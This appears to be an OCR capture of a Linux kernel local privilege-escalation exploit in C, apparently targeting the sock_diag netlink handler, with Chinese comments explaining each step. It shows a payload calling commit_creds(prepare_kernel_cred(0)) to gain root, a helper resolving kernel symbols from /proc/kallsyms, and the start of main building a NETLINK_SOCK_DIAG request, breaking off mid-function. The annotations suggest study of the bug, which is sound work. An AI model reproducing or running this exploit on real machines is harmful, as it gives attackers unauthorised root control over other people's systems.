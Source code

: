 ``` C
int __attribute__((regparm(3)))    //这是指示GCC编译器选用3个寄存器代替堆栈来传递参数。
kernel_code()
{
  commit_creds(prepare_kernel_cred(0));  //这行代码执行之后就可以获取root权限，但是这两个函数都是内核函数，必须在内核态执行才有效。
  return -1;
}

//这段函数没有使用，用来解释hard code jump[] 为什么是那些数值
int jump_payload_not_used(void *skb, void *nlh)
{
  asm volatile (
    "mov $kernel_code, %eax\n"
    "call *%eax\n"
  );
}

unsigned long
get_symbol(char *name)  //为了获取内核函数地址
{
  FILE *f;
  unsigned long addr;
  char dummy, sym[512];
  int ret = 0;
 
  f = fopen("/proc/kallsyms", "r");
  if (!f) {
    return 0;
  }
 
  while (ret != EOF) {
    ret = fscanf(f, "%p %c %s\n", (void **) &addr, &dummy, sym);
    if (ret == 0) {
      fscanf(f, "%s\n", sym);
      continue;
    }
    if (!strcmp(name, sym)) {
      printf("[+] resolved symbol %s to %p\n", name, (void *) addr);
      fclose(f);
      return addr;
    }
  }
  fclose(f);
 
  return 0;
}

int main(int argc, char*argv[])
{
  int fd;
  unsigned family;
  struct {
    struct nlmsghdr nlh;  //socket协议netlink数据包的格式
    struct unix_diag_req r;
  } req;
  char  buf[8192];

    //创建一个netlink协议的socket，因为__sock_diag_rcv_msg函数是属于NETLINK_SOCK_DIAG的
  if ((fd = socket(AF_NETLINK, SOCK_RAW, NETLINK_SOCK_DIAG)) < 0){
    printf("Can't create sock diag socket\n");
    return -1;
  }

    //填充数据包，就是为了最终能够执行到__sock_diag_rcv_msg中去
```